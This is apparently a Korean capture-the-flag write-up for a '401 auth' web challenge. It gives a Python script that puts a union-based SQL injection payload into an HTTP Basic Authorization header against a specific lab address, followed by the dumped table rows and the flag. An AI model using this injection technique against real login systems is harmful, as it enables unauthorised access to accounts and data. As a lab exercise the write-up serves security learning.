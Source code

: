 # [ch4n3 world] 401 auth - Writeup

HTTP Basic Authentication에 취약점이 있는줄 알고 삽질했는데 알고보니 SQL Injection 문제였다..

___

## Union Based SQL Injection

``` python
import urllib.parse, urllib.request
import base64

def main():
	id = '\\'
	pw = 'union select 1,0x61646D696E,3-- '

	url = 'http://13.124.1.51/web/prob14/'
	headers = {
		'User-Agent':'Mozilla/5.0',
		'Authorization':'Basic '+base64.b64encode((id+':'+pw).encode()).decode(),
		'Cookie':'PHPSESSID=920k80r5qm7135c3pbjqnemdu4'
	}

	req = urllib.request.Request(url, None, headers)
	res = urllib.request.urlopen(req).read().decode()

	print(res)

if __name__ == '__main__':
	main()
```
```
-- 생략 --
                <p>2909 | 123 | 123123123 | 2017-11-24</p>

            
                <p>2908 | 123123 | 123123 | 2017-11-24</p>

            
                <p>9999 | real_flag | flag{attack_detected_hello_hacker} | 9999-99-99</p>
```
___

## Answer

flag: `attack_detected_hello_hacker`